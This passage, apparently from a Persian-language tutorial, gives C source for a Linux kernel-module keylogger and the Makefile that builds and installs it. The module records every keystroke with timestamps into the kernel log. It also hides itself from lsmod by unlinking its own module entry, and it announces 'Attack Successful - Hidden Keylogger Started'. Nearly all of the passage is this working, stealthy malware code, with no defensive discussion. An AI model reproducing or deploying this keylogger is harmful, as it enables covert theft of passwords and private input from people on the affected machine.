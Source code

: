 ```c
    char timestamp[64];
    snprintf(timestamp, sizeof(timestamp), "[%lld.%09ld] ", (long long)ts.tv_sec, ts.tv_nsec / 1000);

    printk(KERN_INFO "keylog: %s%s (code %d)", timestamp, keyname, param->value);

    return NOTIFY_OK;
}

static int __init keylog_init(void) {
    int ret;

    printk(KERN_INFO "keylog: Attack Successful - Hidden Keylogger Started! Logging to dmesg\n");

    // Register keyboard notifier (converted from /dev/input read)
    keylog_nb.notifier_call = keylog_keyboard_notifier;
    ret = register_keyboard_notifier(&keylog_nb);
    if (ret) {
        printk(KERN_ERR "keylog: Failed to register notifier (ret=%d)\n", ret);
        return ret;
    }

    // Hide module from lsmod and ps
    list_del(&THIS_MODULE->list);
    kobject_del(&THIS_MODULE->mkobj.kobj);

    return 0;
}

static void __exit keylog_exit(void) {
    unregister_keyboard_notifier(&keylog_nb);
    printk(KERN_INFO "keylog: Unloaded - Keylogger Stopped\n");
}

module_init(keylog_init);
module_exit(keylog_exit);

```

برای کامپایل از Makefile استفاده میکنیم :

```makefile
obj-m += keylog.o

KDIR := /lib/modules/$(shell uname -r)/build
PWD := $(shell pwd)

default:
	$(MAKE) -C $(KDIR) M=$(PWD) modules

clean:
	$(MAKE) -C $(KDIR) M=$(PWD) clean

install:
	sudo insmod keylog.ko

uninstall:
	sudo rmmod keylog
```
